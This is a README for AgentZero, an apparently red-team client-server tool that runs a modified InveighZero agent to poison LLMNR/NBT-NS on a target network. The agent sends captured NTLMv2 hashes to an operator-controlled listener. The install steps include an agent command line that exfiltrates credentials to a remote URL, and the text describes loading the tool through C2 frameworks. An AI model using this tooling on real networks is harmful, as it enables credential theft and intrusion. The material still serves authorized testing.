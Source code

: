 # AgentZero
A client-server tool for remote LLMNR/NBTNS poisoning by Matt Kiely (HuskyHacks) and Aaron Hobdy.

## WARNING
This tool does not yet provide any encryption of data on the wire. **Do not use this to transmit captured authentication material outside of a private, internal network.** The dev team is not liable if you use this in a production environment and leak plain text authentication data out to the Internet.

This tool is also not currently built with security best practices in mind. There is no authentication mechanism for the main web server yet. Keep this in mind before hosting this tool on your network. **Never host this on an internet facing server.**

### Description
Inveigh is the work of Kevin Robertson and is one of the best tools available for poisoning LLMNR/NBTNS in a target network. Traditionally, tools like Responder.py have been used to respond to LLMNR/NBTNS and force the client to attempt an authentication to the responder server, which allows an attacker to capture the NTLMv2 hash of the client. However, this method has one big shortfall: the attacker must be present on the network where Responder is running, which is not always feasible. Inveigh and InveighZero have the interesting capability of being able to be run via PowerShell or as a reflective .NET assembly, respectively. This allows an operator to gain a foothold with a C2 agent, load Inveigh into their C2 agent's session, and use it to respond to LLMNR on the target network.

Recently, we found that we were running Inveigh as a .NET assembly through a C2 agent in order to recover NTLMv2 hashes remotely. This works great on platforms like Covenant and Cobalt Strike! Running Inveigh through a C2 agent means that an operator does not have to be present on the subnet where they want to recover NTLMv2 hashes. We wanted to make this process into a stand-alone client/server tool and hopefully define it as its own method of extracting authentication information. Thus, **AgentZero** was born.

**AgentZero** uses a modified version of the InveighZero source code to create an agent binary that can exfiltrate capture authentication messages from an internal network out to an operator-controlled server. This allows for remote LLMNR poisoning that can recover cryptographic authentication messages.  

### Quick Install Guide
Note: The process for setting up the client/server architecture for this tool is still in its early stages. Right now, the InveighZero agent must be compiled manually.

1. `sudo git clone https://github.com/HuskyHacks/AgentZero.git`
2. `cd AgentZero`
3. `sudo docker-compose up --build`
4. Compile the InveighZero-master binary that is packeged in the code.
5. Drop this binary to disk or run as an assembly with the `-EXFILURL` argument: `InveighZero.exe -EXFILRUL http://[ip]:1776/listener`
6. Wait for (or force) an LLMNR/NBTNS event
7. Captured hashes are stored in the dockerized DB.

### Roadmap
v.01
- [x] Python socket server that accepts input and writes to log file
- [x] InveighZero exe that sends captured NTLMv2 hash to server
- [x] Flask App
- [x] Stores in database

future state
- [ ] Dynamically compile InveighZero with IP address and port
- [ ] Multi-threaded, multi-agent handling
- [ ] Front end web client for multi-agent config/administration
- [ ] Dynamic generation for listener URL
- [ ] Encoding/encrypting for exfil
  - [ ] Base64 encoding
  - [ ] Asymmetrical Key exchange at compilation/agent check in

## Acknowledgements
The dev team would like to thank Kevin Robertson for making an incredible program! Thanks also goes out to the devs of Covenant, Cobalt Strike, Empire, and all other C2s that we love.
